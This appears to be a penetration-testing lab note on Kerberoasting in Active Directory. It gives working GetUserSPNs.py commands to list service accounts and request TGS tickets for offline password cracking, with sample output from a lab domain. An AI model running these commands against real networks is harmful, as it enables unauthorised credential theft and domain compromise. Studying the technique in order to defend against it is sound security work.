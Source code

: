Several tools can be utilized to perform the attack:

- Impacket’s [GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py) from a non-domain joined Linux host.
- A combination of the built-in setspn.exe Windows binary, PowerShell, and Mimikatz.
- From Windows, utilizing tools such as PowerView, [Rubeus](https://github.com/GhostPack/Rubeus), and other PowerShell scripts.

We can start by just gathering a listing of SPNs in the domain. To do this, we will need a set of valid domain credentials and the IP address of a Domain Controller. We can authenticate to the Domain Controller with a `cleartext password`, `NT password hash`, or even a` Kerberos ticket`. 
#### Listing kerberoastable Accounts with GetUserSPNs.py

```
$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend


ServicePrincipalName                               Name               MemberOf                                                                                  PasswordLastSet             LastLogon                   Delegation 
-------------------------------------------------  -----------------  ----------------------------------------------------------------------------------------  --------------------------  --------------------------  ----------
MSSQLSvc/ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL:1433  damundsen          CN=VPN Users,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL                         2022-03-24 12:20:34.127432  2022-04-10 18:50:58.924378             
MSSQL/ACADEMY-EA-FILE                              damundsen          CN=VPN Users,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL                         2022-03-24 12:20:34.127432  2022-04-10 18:50:58.924378             
backupjob/veam001.inlanefreight.local              backupagent        CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:15:40.842452  2022-04-18 21:20:32.090310                                                  
```


We can now pull all TGS tickets for offline processing using the `-request` flag. The TGS tickets will be output in a format that can be readily provided to Hashcat or John the Ripper for offline password cracking attempts.
### Requesting single TGS
```
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user  SAPService -outputfile SAPSERVICE_TGS
```
IN DIFFRENT DOMAIN
```shell-session
GetUserSPNs.py -target-domain FREIGHTLOGISTICS.LOCAL INLANEFREIGHT.LOCAL/wley
```
#### Requesting all TGS Tickets
```shell-session
$ GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 

ServicePrincipalName                               Name               MemberOf                                                                                  PasswordLastSet             LastLogon                   Delegation 
-------------------------------------------------  -----------------  ----------------------------------------------------------------------------------------  --------------------------  --------------------------  ----------
MSSQLSvc/ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL:1433  damundsen          CN=VPN Users,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL                         2022-03-24 12:20:34.127432  2022-04-10 18:50:58.924378             
MSSQL/ACADEMY-EA-FILE                              damundsen          CN=VPN Users,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL                         2022-03-24 12:20:34.127432  2022-04-10 18:50:58.924378             
backupjob/veam001.inlanefreight.local              backupagent        CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       2022-02-15 17:15:40.842452  2022-04-18 21:20:32.090310             
```